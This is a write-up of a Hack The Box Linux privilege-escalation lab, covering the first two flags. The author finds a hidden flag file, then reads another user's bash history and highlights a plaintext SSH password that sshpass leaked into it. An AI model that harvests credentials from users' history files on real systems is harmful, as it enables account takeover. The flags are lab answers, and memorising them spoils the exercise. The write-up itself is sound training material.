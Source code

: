 # Linux Local Privilege Escalation - Skills Assessment

## Objectives 

We have been contracted to perform a security hardening assessment against one of the INLANEFREIGHT organizations' public-facing web servers.
The client has provided us with a low privileged user to assess the security of the server. Connect via SSH and begin looking for misconfigurations and other flaws that may escalate privileges using the skills learned throughout this module.
Once on the host, we must find five flags on the host, accessible at various privilege levels. Escalate privileges all the way from the htb-student user to the root user and submit all five flags to finish this module.

*  Submit the contents of flag1.txt
*  Submit the contents of flag2.txt
*  Submit the contents of flag3.txt
*  Submit the contents of flag4.txt
*  Submit the contents of flag5.txt

## Exercise Start

### flag1.txt

```
htb-student@nix03:~$ ls -lA
total 24
-rw------- 1 htb-student htb-student   57 Sep  6  2020 .bash_history
-rw-r--r-- 1 htb-student htb-student  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 htb-student htb-student 3771 Feb 25  2020 .bashrc
drwx------ 2 htb-student htb-student 4096 Sep  6  2020 .cache
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .config
-rw-r--r-- 1 htb-student htb-student  807 Feb 25  2020 .profile
htb-student@nix03:~$ ls -LA .config
.flag1.txt
htb-student@nix03:~$ cat .config/.flag1.txt
LLPE{d0nXXXXXXXXXXXXXXXXes!}
htb-student@nix03:~$ 
```

### flag2.txt

```
htb-student@nix03:~$ cat /home/barry/.bash_history
cd /home/barry
ls
id
ssh-keygen
mysql -u root -p
tmux new -s barry
cd ~
sshpass -p 'i_l0ve_s3cur1ty!' ssh barry_adm@dmz1.inlanefreight.local   <---------- CREDENTIALS*
history -d 6
history
history -d 12
history
cd /home/bash
cd /home/barry/
nano .bash_history 
history
exit
history
exit
ls -la
```